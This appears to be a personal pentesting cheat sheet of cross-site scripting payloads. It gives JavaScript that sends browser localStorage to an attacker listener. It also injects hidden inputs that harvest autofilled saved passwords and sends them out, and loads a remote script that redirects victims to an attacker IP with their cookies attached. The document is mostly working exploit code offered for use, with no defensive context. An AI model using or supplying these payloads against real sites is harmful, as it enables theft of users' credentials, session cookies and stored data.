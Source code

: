 #### Local Secrets

- localStorage > accessed using `window.localStorage`
- sessionStorage > accessed using `window.sessionStorage` keeps data until tab is closed

```javascript

let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://attackerlistener:8000/exfil?data=" + encodedData)

```

#### Stealing saved passwords

```javascript
let body = document.getElementsByTagName("body")[0]
 
   var u = document.createElement("input");
   u.type = "text";
   u.style.position = "fixed";
   //u.style.opacity = "0";
 
   var p = document.createElement("input");
   p.type = "password";
   p.style.position = "fixed";
   //p.style.opacity = "0";
 
   body.append(u)
   body.append(p)
 
   setTimeout(function(){ 
           fetch("http://attacker.ip/k?u=" + u.value + "&p=" + p.value)
    }, 5000);
 ```

#### stealing passwords external
- `<script src="http://myip/asd.js"></script>` store in target
- then host the following `asd.js`
```javascript
const newDiv = document.createElement("script");
const newContent = document.createTextNode('document.location="http://192.168.49.191/?c="+document.cookie');
newDiv.appendChild(newContent);
const currentDiv = document.getElementById("div1");
document.body.insertBefore(newDiv, currentDiv);
```
or
```javascript
document.body.onload = addElement;

function addElement () {
    // create a new script element
    const newDiv = document.createElement("script");
    const newContent = document.createTextNode('window.location="http://192.168.49.191/?c=" + document.cookie');
    newDiv.appendChild(newContent);
    const currentDiv = document.getElementById("div1");
    document.body.insertBefore(newDiv, currentDiv);
  }
```
or
```javascript 
/// https://bobbyhadz.com/blog/javascript-create-image-element
```